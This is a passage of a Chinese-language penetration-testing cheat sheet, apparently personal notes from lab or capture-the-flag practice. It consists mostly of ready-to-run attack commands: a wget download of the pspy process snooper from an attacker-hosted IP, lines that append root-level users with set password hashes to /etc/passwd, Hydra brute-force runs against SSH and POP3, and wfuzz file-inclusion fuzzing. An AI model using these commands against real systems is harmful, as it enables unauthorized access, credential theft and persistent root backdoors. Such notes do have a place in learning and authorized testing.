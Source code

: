 ```
python linuxprivchecker.py > report.txt
```

>  https://github.com/rebootuser/LinEnum 

#### 嗅探进程

> https://github.com/DominicBreuker/pspy 

```
wget http://192.168.111.60:65534/pspy/pspy64s
chmod 777 pspy64s
./pspy64s -pf -c -i 1000
```

#### 向`/etc/passwd`中写入root权限的用户

```
openssl passwd -1 -salt saltvalue gqy
echo 'gqy:$1$saltvalu$DRYceYIChAKLw2cBELUkn.:0:0:who add it:/bin/bash'>> /etc/passwd

openssl passwd -1 -salt gqy glotozz
echo 'glotozz:$1$gqy$ItzRwU2UUNGV4J./3rltZ/:0:0:gqy:/root:/bin/bash' >
/tmp/passwd
```

#### 设置网卡ip

```
ifconfig eth1 10.10.10.12 netmask 255.255.255.0
ifconfig eth0 192.168.1.110 netmask 255.255.255.0
```

#### hydra

<img src="https://i.loli.net/2020/02/10/t4lXwOvCI9QThcZ.png" alt="Snipaste_2020-02-10_10-32-18.png" style="zoom:70%;" />

```
hydra -L dict.txt 192.168.1.131 ssh -s 65345 -e nsr
```

```
echo -e 'natalya\nboris' > user.txt
hydra -L user.txt -P /usr/share/wordlists/fasttrack.txt 192.168.0.107 -s 55007 pop3
```

```
hydra -L user.txt -P pass.txt ssh://192.168.139.131
```

#### wfuzz

```
wfuzz -c -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt --hl 0 http://192.168.139.132/connect.php\?file\=FUZZ
```

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 12 http://192.168.139.138/index.php?FUZZ=something
```
